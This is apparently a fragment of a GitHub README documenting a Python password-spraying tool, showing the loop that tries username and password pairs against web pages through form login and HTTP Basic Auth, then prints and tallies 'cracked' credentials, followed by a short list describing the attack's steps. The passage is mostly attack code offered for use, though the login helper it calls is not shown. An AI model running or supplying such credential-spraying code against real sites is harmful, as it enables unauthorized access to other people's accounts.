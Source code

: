 ```python
                    try:
                        credentials = attempt_login_with_form(full_url, session, username, password)
                        
                        if credentials:
                            auth_response = session.get(full_url, auth=HTTPBasicAuth(credentials[0], credentials[1]))

                            if auth_response.status_code == 200:
                                print(f"{Fore.GREEN}Success! Username: {credentials[0]}, Password: {credentials[1]} on {full_url}")
                                successful_cracks.append((full_url, credentials[0], credentials[1]))
                            else:
                                print(f"{Fore.RED}Failed BasicAuth for Username: {credentials[0]} on {full_url}")
                                failed_cracks.append(full_url)
                    except (Timeout, ConnectionError):
                        print(f"Connection failed for {full_url}")
                    except RequestException as e:
                        print(f"An error occurred: {e}")
    
    print("\n--- Summary of Cracking Attempts ---")
    if successful_cracks:
        print(f"{Fore.GREEN}Successfully cracked pages:")
        for page, user, pwd in successful_cracks:
            print(f"Page: {page}, Username: {user}, Password: {pwd}")
    else:
        print(f"{Fore.RED}No successful cracking attempts.")
    
    if failed_cracks:
        print(f"{Fore.RED}Failed pages that required a password:")
        for page in failed_cracks:
            print(f"Page: {page}")
    else:
        print(f"{Fore.GREEN}No failed password cracking attempts.")
```

- **Purpose**: Executes the password spraying attack:
  - Filters usernames and passwords.
  - Attempts login via form submission.
  - Handles Basic Authentication.
  - Provides colorized feedback for successes (green) and failures (red).
  - Summarizes all successful and failed cracking attempts at the end.

---
```
======== END OF UPDATES MADE ON 10/07/23 ========

